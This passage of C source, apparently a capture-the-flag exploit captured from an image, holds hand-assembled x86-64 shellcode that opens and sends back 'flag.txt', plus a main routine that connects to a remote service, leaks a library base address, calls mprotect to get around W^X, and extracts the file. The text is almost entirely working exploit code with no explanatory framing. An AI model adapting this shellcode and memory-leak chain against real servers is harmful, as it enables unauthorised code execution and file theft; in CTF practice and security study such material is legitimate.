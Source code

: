 ```c
    "\x48\x8d\x77\x0b"              // lea rsi, [rdi + 0xb]
    "\x48\x89\xc7"                  // mov rdi, rax
    "\x48\x31\xc0"                  // xor rax, rax               
    "\xba\x20\x00\x00\x00"          // mov rdx, 0x20              
    "\x0f\x05"                      // syscall                    
    "\xbf\x01\x00\x00\x00"          // mov rdi, 0x01              
    "\xb8\x01\x00\x00\x00"          // mov rax, 0x01              
    "\x0f\x05"                      // syscall                    
    "\xe8\xd3\xff\xff\xff"          // call sc_open_file
    "\x66\x6c"                      // "fl"
    "\x61"                          // "a"
    "\x67\x2e\x74\x78"              // "g.tx"
    "\x74\x00"                      // "t\x00"
};

/* --- Enums, Structs, Typedefs */

typedef enum {

    ENDIAN_LE,
    ENDIAN_BE

} ENDIAN;

/* --- Forward Declaration --- */

uint64_t leak_libbase(sock_t *sock);
void mprotect_rwx(sock_t *sock, const uint64_t libbase);
void extract_file(sock_t *sock, char *leak_buffer);

void print_leakage(const char *what, const uint64_t info);
uint64_t bytes_to_u64(uint8_t *bytes, const ENDIAN e);
void u64_to_bytes(const uint64_t num, const ENDIAN e, uint8_t *buffer);

/* --- Functions ---*/

int main(void) {

    char msg[256]; char flag[32];

    sock_t sock = tcp.remote(REMOTE_IP, REMOTE_PORT);
    tcp.recv(&sock, msg, 256);

    printf("[+] leaking memory...\n");

    const uint64_t libbase = leak_libbase(&sock);
    print_leakage("libbase", libbase);

    printf("[+] leakage done. getting rid of W^X...\n");
    mprotect_rwx(&sock, libbase);

    printf("[+] done. extracting file from server...\n");
    extract_file(&sock, flag);

    printf("%s[+] received flag: %s%s", COLOR_GREEN, flag, COLOR_DFL);

    tcp.shutdown(&sock);
    tcp.close(&sock);

    return EXIT_SUCCESS;
}

uint64_t leak_libbase(sock_t *sock) {
```